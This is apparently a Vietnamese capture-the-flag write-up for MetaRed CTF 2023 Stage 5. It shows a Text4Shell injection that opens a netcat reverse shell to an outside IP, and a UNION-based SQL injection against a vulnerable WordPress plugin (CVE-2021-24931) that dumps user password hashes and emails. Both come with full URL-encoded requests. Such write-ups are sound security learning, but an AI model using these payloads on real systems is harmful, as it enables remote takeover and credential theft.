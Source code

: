 # MetaRed CTF 2023 - Stage 5

# WEB - Text4Shell

- Về cơ bản, việc ta cần làm là tìm cách RCE thông qua param `?search` của trang web, ở đây mình sử dụng revershell

![Untitled](MetaRed%20CTF%202023%20-%20Stage%205%20e42a378f8c09464288274c527d70a42a/Untitled.png)

payload: `${java.lang.Runtime.getRuntime().exec('nc 65.21.156.52 4443 -e /bin/bash')}`

payload encode url: [`http://190.15.135.60/text4shell/attack?search=%24{script%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('nc 65.21.156.52 4443 -e %2Fbin%2Fbash')}`](http://190.15.135.60/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%2065.21.156.52%204443%20-e%20%2Fbin%2Fbash%27%29%7D) - **encode $ { }/ và ( )**

![Untitled](MetaRed%20CTF%202023%20-%20Stage%205%20e42a378f8c09464288274c527d70a42a/Untitled%201.png)

- `nc -lvnp 4443` : kết nối vào port 4443, sau đó lấy flag ^^

# WEB-WordPress

**[Wordpress Plugin Secure Copy Content Protection and Content Locking < 2.8.2 - SQL-Injection (Unauthenticated)](https://github.com/Hacker5preme/Exploits#wordpress-plugin-secure-copy-content-protection-and-content-locking--282---sql-injection-unauthenticated)**

**# CVE: CVE-2021-24931**

Plugin WordPress "The Secure Copy Content Protection and Content Locking" phiên bản trước 2.8.2 không thoát (escape) đúng tham số **`sccp_id`** của  AJAX **`ays_sccp_results_export_file`**. Hành động này có sẵn cho cả người dùng chưa xác thực và người dùng đã xác thực. Trước khi sử dụng giá trị **`sccp_id`** trong một câu lệnh SQL, plugin không thực hiện bước thoát thích hợp, dẫn đến một lỗ hổng SQL injection.

Lỗ hổng này có thể cho phép kẻ tấn công thực hiện các cuộc tấn công SQL Injection bằng cách chèn các câu lệnh SQL độc hại vào giá trị của **`sccp_id`**.

[https://www.exploit-db.com/exploits/50733](https://www.exploit-db.com/exploits/50733)

![Untitled](MetaRed%20CTF%202023%20-%20Stage%205%20e42a378f8c09464288274c527d70a42a/Untitled%202.png)

PAYLOAD: `3) union select 1,user_pass,user_email,2,2,2 from wp_users union select 1,1,1,1,1,1 FROM wp_ays_sccp_reports WHERE (1=1`

- Phần này đang thực hiện một tấn công SQL Injection bằng cách sử dụng UNION SELECT để nối kết quả từ hai truy vấn khác nhau.
- Đoạn **`select 1, user_pass, user_email, 2, 2, 2 from wp_users`** lấy thông tin mật khẩu (**`user_pass`**) và email (**`user_email`**) từ bảng **`wp_users`**.
- Đoạn **`select 1, 1, 1, 1, 1, 1 FROM wp_ays_sccp_reports WHERE (1 = 1)`** dùng để cân bằng các cột

payload url: `GET /wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)%20union%20select%201,user_pass,user_email,2,2,2%20from%20wp_users%20union%20select%201,1,1,1,1,1%20FROM%20wp_ays_sccp_reports%20WHERE%20(1=1%20&type=json HTTP/1.1`

flag{$P$BsIu9jhV\/NIdvwjpaV8n0MeyhZgMmz0}